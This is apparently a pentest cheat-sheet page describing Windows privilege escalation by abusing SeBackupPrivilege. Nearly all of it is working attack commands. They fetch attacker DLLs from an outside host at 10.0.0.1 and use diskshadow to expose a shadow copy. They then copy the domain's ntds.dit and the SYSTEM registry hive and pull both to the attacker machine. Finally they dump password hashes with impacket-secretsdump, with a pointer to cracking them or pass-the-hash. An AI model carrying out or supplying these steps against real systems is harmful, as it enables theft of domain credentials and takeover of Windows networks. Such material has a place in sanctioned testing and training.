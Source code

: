 ```yaml
---
title: Windows PrivEsc with SeBackupPrivilege
description: SeBackupPrivilege allows users to retrieve file contents.
tags:
    - Privilege Escalation
    - Windows
refs:
date: 2023-04-06
draft: false
---
```


## Investigation

First check if the current user has SeBackupPrivilege in the privilege information.

```bash
whoami /all
```

If so, we can read arbitrary files on the system include administrator's files, SAML file, SYSTEM registry file, etc.

<br />

## Exploitation (Read Sensitive Files)

### 1. Download & Upload Malicious DLLs

In local machine, download malicious dlls from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm,
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Set-SeBackupPrivilege
Get-SeBackupPrivilege
```

### 2. Copy & Read Sensitive Files

```powershell
Copy-FileSeBackupPrivilege C:\Users\Administrator\flag.txt C:\Users\Public\flag.txt -Overwrite
```

<br />

## Exploitation (Retrieve Registry Keys)

### 1. Create a Payload and Transfer It

Create **"diskshadow.txt"** in local machine. It referes to [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#using-diskshadow-a-windows-signed-binary).

```bash
set metadata C:\tmp\tmp.cabs 
set context persistent nowriters 
add volume c: alias someAlias 
create 
expose %someAlias% h:
```

Upload this file to remote machine.  

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/diskshadow.txt -OutFile .\diskshadow.txt
# If winrm,
upload diskshadow.txt
```

### 2. Execute DiskShadow.Exe

Then execute diskshadow.exe.

```powershell
# /s: Specify the script file
diskshadow.exe /s .\diskshadow.txt
```

### 3. Upload Malicious DLL

We can download two dll files from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug).

```powershell
# If powershell,
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeUtils.dll -OutFile .\SeBackupPrivilegeUtils.dll
Invoke-WebRequest -Uri http://10.0.0.1:8000/SeBackupPrivilegeCmdLets.dll -OutFile .\SeBackupPrivilegeCmdLets.dll
# If winrm
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll

Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll

Copy-FileSeBackupPrivilege h:\windows\ntds\ntds.dit c:\tmp\ntds.dit -overwrite

reg save HKLM\SYSTEM c:\tmp\system

download ntds.dit
download system
```

### 4. Dump Password Hashes

Now we have two files (ntds.dit and system) in local machine.  
We can dump password hashes using the files.

```sh
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

After that, crack the hashes or use them for pass-the-hash.
